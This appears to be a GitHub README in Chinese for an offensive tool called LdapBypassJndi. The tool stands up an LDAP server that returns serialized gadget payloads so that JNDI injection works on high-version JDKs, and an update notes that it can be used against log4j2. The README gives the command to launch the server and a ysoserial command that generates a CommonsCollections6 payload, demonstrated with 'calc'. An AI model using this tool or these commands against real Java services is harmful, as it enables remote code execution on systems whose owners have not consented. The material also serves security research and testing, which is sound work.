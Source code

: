 # LdapBypassJndi

>该工具功能是通过LDAP去绕过高版本的JNDI注入

原理：利用LDAP返回序列化数据，触发本地Gadget

使用：**java -jar LdapBypassJndi.jar port poc.ser**

port：是监听的端口相当于服务端监听的端口

poc.ser：是序列化base64编码的gadget

```
java -jar ysoserial.jar CommonsCollections6 "calc" | base64 >win-cc6-calc-poc.ser
```

![poc](img/poc.gif)

简单的说相当于一个反序列化入口，要利用就需要本地有。


**更新 2021/12/21**

bypass log4j2 的ldap服务

https://github.com/Firebasky/Java/blob/main/java%E6%97%A5%E5%B8%B8/%E9%97%B2%E8%B0%88log4j2.md

>参考：
>
>https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html
>
>https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/
